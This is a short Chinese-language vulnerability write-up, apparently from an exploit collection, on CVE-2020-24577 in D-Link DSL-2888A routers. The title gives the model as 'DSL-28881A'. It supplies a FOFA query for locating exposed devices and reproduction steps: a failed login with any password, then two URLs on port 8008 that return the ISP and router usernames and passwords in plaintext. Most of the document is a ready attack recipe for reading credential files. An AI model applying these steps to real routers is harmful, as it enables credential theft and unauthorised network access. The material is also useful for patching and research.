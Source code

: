 # D-Link DSL-28881A 信息泄露 CVE-2020-24577

## 漏洞描述

通过物理连接或无线访问建立与网络的连接后，恶意用户可以通过直接浏览以下URL来获取纯文本格式的Internet提供商连接用户名和密码，以及无线路由器的纯文本格式的用户名和密码

## 漏洞影响

```
D-Link DSL-2888A
```

## FOFA

```
body="DSL-2888A"
```

## 漏洞复现

登录页面输入任意密码建立连接



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162223056.png)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

访问下列两个连接

http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162223303.png)



- 连接Wifl或物理连接Wifi才能访问